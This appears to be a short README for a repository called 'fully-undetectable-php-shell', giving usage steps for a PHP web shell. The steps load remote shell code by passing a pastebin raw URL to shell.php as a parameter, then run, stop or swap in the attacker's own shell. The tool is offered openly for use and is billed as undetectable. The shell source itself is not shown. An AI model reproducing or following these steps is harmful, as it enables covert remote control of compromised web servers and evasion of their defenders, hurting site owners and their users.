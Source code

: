 # fully-undetectable-php-shell
How to Use This File
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
localhost/shell.php?start=http://pastebin.com/raw/8e5m6Nkp
Then remove ?start=http://pastebin.com/raw/8e5m6Nkp
and run
localhost/shell.php
If you want to stop this shell then just put
localhost/shell.php?stop
If you want to inject your own shell then just put it here
localhost/shell.php?start=your-shell-link
Hope you like it.
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
